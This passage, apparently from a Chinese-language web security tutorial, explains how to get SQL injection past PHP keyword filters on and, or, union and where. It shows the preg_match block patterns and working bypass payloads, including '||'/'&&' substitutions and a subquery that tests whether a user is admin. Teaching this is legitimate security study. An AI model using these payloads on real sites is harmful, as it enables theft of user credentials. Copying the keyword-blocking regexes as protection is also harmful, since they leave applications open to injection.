 ### <span id = "hanshu">绕过函数和关键词过滤</span>

## **关键词过滤： `and` , `or`**

PHP过滤代码：
```php 
preg_match('/(and|or)/i',$id)
```

**`/i`** 模式修饰符，表示忽略大小写 <br>

关键词**and,or**常被用做简单测试网站是否容存在注入。<br>

过滤注入：
```sql
1 or 1 = 1    1 and 1 = 1
```

绕过注入：
```sql
1 || 1 = 1    1 && 1 = 1
```

--------
<br>


## **关键词过滤：`and` , `or` , `union`**

PHP过滤代码：
```php 
preg_match ('/(and|or|union)/i',$id)
```

关键词**union**通常被用来构造一个恶意的语句以从数据库中获取更多数据。<br>

过滤注入：
```sql
union select user,password from users
```

绕过注入：
```sql
1 || (select  user  from  users  where  user_id = 1)='admin'
```

**`||`** 管道符后边的意思就是，从**users**表中查找 `user_id = 1` 的 **user** 数据是不是 **admin**

--------
<br>


## **关键词过滤：`and` , `or` , `union` , `where`**

PHP过滤代码：
```php 
preg_match ('/(and|or|union|where)/i',$id)
```

